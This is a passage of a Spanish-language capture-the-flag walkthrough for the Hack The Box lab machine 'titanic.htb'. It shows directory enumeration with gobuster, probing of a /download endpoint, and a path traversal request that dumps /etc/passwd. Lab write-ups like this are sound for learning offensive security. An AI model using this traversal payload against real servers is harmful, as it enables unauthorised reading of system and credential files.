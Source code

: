 Resultado:

```Shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/book                 (Status: 405) [Size: 153]
/download             (Status: 400) [Size: 41]
/server-status        (Status: 403) [Size: 276]
```

Explicación: posible rutas a explotar


## Paso 6 -

Acción: 

```url
http://titanic.htb/download  
```

Resultado:

```json
error: "Ticket parameter is required"
```

Explicación: esta ruta parece requerir de un *parametro ticket*


## Paso 7 -

Acción: 

```url 
http://titanic.htb/download?ticket=1234 
```

Resultado:

```json 
error:	"Ticket not found"
```

Explicación: efectivamente la respuesta cambia al introducir un parametro ticker, aunque parece no ser válido


## Paso 8 -

Acción: 

```Shell
http://titanic.htb/download?ticket=../../../etc/passwd  
```

Resultado:

```Shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```